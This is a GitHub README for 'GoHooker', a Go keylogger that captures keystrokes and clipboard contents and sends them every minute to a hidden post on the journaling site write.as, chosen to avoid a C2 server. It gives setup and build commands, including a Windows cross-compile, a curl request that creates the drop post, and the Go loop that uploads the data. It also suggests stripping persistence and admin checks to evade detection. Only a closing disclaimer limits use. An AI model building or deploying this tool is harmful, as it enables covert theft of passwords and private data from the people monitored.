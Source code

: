 <div align="center">

  <img src="assets/logo.png" alt="logo" width="auto" height="auto" />
  <h1>GoHooker</h1>
</div>
C2-Less keylogger that sends the *clipboard* & *keystrokes* to **write.as**, a "journal" or "diary" website used to post your thoughts or feelings. Upon initial upload, **write.as** provides a unique ID, and token to update your existing post. From there we exfiltrate clipboard data & keystroke data to such post. This allows inconspicuous data exfiltration rather than pushing to a C2 or some pastebin alternative.

## Prerequisite 🚀
| Prerequisite | Version |
|--------------|---------|
| Go           |  <=1.22 |


## Install 🔨
```bash
git clone https://github.com/CharlesTheGreat77/goHooker
cd goHooker
go mod init main
go mod tidy
```

## Usage ⚙️
Firstly, we must get *ID* and *token* to a given post from **write.as**. This is where the keystrokes and clipboard content will exfiltrate to. 

Obtain ID and token for a post:
```bash
curl --path-as-is -i -s -k -X $'POST' \
    -H $'Host: write.as' -H $'Content-Length: 114' -H $'Sec-Ch-Ua-Platform: \"macOS\"' -H $'Accept-Language: en-US,en;q=0.9' -H $'Sec-Ch-Ua: \"Chromium\";v=\"133\", \"Not(A:Brand\";v=\"99\"' -H $'Content-Type: application/json' -H $'Sec-Ch-Ua-Mobile: ?0' -H $'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36' -H $'Accept: */*' -H $'Origin: https://write.as' -H $'Sec-Fetch-Site: same-origin' -H $'Sec-Fetch-Mode: cors' -H $'Sec-Fetch-Dest: empty' -H $'Referer: https://write.as/new' -H $'Accept-Encoding: gzip, deflate, br' -H $'Priority: u=1, i' -H $'Connection: keep-alive' \
    --data-binary $'{\"body\":\"this is a test\",\"title\":\"\",\"font\":\"norm\",\"web\":true,\"top\":5633,\"lang\":\"en\",\"crosspost\":[],\"public\":false}' \
    $'https://write.as/api/posts'
```
* This returns some *json* output, **copy** the id and token for *your* post.

Second, **paste** the *id* and *token* values inside the **main.go** file.
```go
const ( // this gets cooked within an hour of inactivity
	urlID = ""
	token = ""
)
```

Compile for a given OS
```bash
go build -o helloWorld main.go
```
Cross compile:
```bash
GOOS=windows GOARCH=amd64 go build -o hooker.exe main.go
```

## Exfiltration 📮
goHooker sends data every **minute**, one can change the timer as needed inside the *main.go* file:
```go
// func to push data back to the server & timer for such
func pusher() {
	for {
		time.Sleep(60 * time.Second) // default timer

		mu.Lock()
		if len(keyBuffer) > 0 {
            // sends data to write.as
			_ = updatePimp(keyBuffer)
			keyBuffer = "" // Reset buffer
		}
		mu.Unlock()
	}
}
```

### Tested Environments 🖥️
* MacOS - Sanoma 14.5
* Windows 10

## Special Considerations ⭐
One can delete the functionality to set the executable on startup and admin checks to reduce the chances of detection etc.

## Contributions ❤️
Although this is straight forward, any contributions to additional functionality is welcomed!


## Disclaimer ❌
This program should only be used on environments that you own or have explicit permission to do so. Neither the author, nor other parties involved in the project, will be held liable for any illegal use of this program.
